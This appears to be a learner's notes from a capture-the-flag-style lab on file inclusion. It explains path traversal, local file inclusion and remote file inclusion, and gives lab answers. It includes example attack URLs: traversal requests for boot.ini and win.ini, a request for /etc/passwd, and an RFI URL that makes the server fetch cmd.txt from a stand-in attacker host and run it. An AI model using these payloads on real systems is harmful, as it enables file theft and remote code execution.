


# File Inclusion

## Path Traversal 

Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.\

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the file_get_contents to read the content of a file.

Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the boot.ini file located in c:\boot.ini, then the attacker can try the following depending on the target OS version:\

http://webapp.thm/get.php?file=../../../../boot.ini or\

http://webapp.thm/get.php?file=../../../../windows/win.ini\

## Local File Inclusion - LFI 1

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal.

Give Lab #1 a try to read /etc/passwd. What would the request URI be? lab1.php?file=/etc/passwd\
\

In Lab #2, what is the directory specified in the include function? includes
\

## Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.\

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.\

\

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.

